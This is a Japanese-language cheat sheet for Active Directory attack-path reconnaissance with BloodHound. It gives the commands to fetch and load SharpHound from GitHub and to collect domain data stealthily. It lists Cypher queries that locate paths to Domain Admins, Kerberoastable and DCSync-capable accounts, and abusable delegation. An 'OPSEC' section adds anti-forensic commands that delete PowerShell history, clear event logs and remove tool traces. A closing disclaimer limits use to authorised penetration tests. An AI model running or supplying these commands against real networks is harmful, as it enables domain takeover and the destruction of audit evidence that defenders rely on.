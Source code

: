 # BloodHound Active Directory Analysis

## BloodHound セットアップ

### コレクターのインストール
```powershell
# SharpHound のダウンロードと実行
wget https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1
Import-Module .\SharpHound.ps1

# Python版コレクターのインストール
pip install bloodhound

# Neo4j のインストール（攻撃者マシン）
sudo apt install neo4j
sudo neo4j start
```

## データ収集

### SharpHound を使用したデータ収集
```powershell
# 全データの収集
Invoke-BloodHound -CollectionMethod All

# 特定のデータのみ収集
Invoke-BloodHound -CollectionMethod Session,LoggedOn
Invoke-BloodHound -CollectionMethod DCOnly
Invoke-BloodHound -CollectionMethod GPOLocalGroup

# ステルス性を高めた収集
Invoke-BloodHound -CollectionMethod All -Stealth

# 特定ドメインの収集
Invoke-BloodHound -CollectionMethod All -Domain target.local
```

### Python版コレクターの使用
```bash
# 基本的な収集
bloodhound-python -u username -p password -d domain.local -ns <dc-ip> -c All

# 特定のユーザーでの収集
bloodhound-python -u username -p password -d domain.local -c Session,LoggedOn

# Kerberos認証を使用
bloodhound-python -u username -k -d domain.local -c All
```

## 攻撃パスの分析

### 一般的なクエリ
```cypher
# Domain Adminsへの最短パス
MATCH (n:User),(m:Group {name:"DOMAIN ADMINS@DOMAIN.LOCAL"}),
p=shortestPath((n)-[*1..]->(m)) RETURN p

# キッティング可能なコンピュータ
MATCH (c:Computer)
WHERE c.haslaps=false
RETURN c.name

# 危険な委任設定
MATCH (c:Computer {unconstraineddelegation:true})
RETURN c.name
```

### 特権アカウントの列挙
```cypher
# ネストされた管理者グループ
MATCH p=(n:User)-[r:MemberOf*1..]->(m:Group)
WHERE m.name =~ ".*ADMIN.*"
RETURN p

# DCSync権限を持つアカウント
MATCH (n:User)
WHERE n.dcsync=true
RETURN n.name
```

## 攻撃シナリオ

### Kerberoastable アカウントの特定
```cypher
# SPNを持つアカウントの検索
MATCH (u:User)
WHERE u.hasspn=true
RETURN u.name, u.serviceprincipalnames

# 高権限Kerberoastableアカウント
MATCH (u:User)-[r:MemberOf*1..]->(g:Group)
WHERE u.hasspn=true AND g.name =~ ".*ADMIN.*"
RETURN u.name, g.name
```

### 委任の悪用
```cypher
# 制約のない委任設定
MATCH (c:Computer {unconstraineddelegation:true})
RETURN c.name, c.operatingsystem

# 制約付き委任の列挙
MATCH (c:Computer)
WHERE c.allowedtodelegate IS NOT NULL
RETURN c.name, c.allowedtodelegate
```

## OPSEC 考慮事項

### ステルス収集のベストプラクティス
```powershell
# 低帯域幅での収集
Invoke-BloodHound -CollectionMethod All -Stealth -LdapFilter "(objectClass=user)"

# セッション収集の制限
Invoke-BloodHound -CollectionMethod Session -SearchForest
```

### ログの削除
```powershell
# PowerShell ログの削除
Remove-Item (Get-PSReadlineOption).HistorySavePath
Clear-EventLog "Windows PowerShell"

# SharpHoundログの削除
Remove-Item C:\Users\*\AppData\Local\BloodHound -Recurse -Force
```

## 注意事項
- これらの技術は、許可された環境でのペネトレーションテストでのみ使用してください
- Active Directory環境に大きな負荷をかける可能性があります
- データ収集は監査ログを生成する可能性があります
- 実環境での使用は違法となる可能性があります 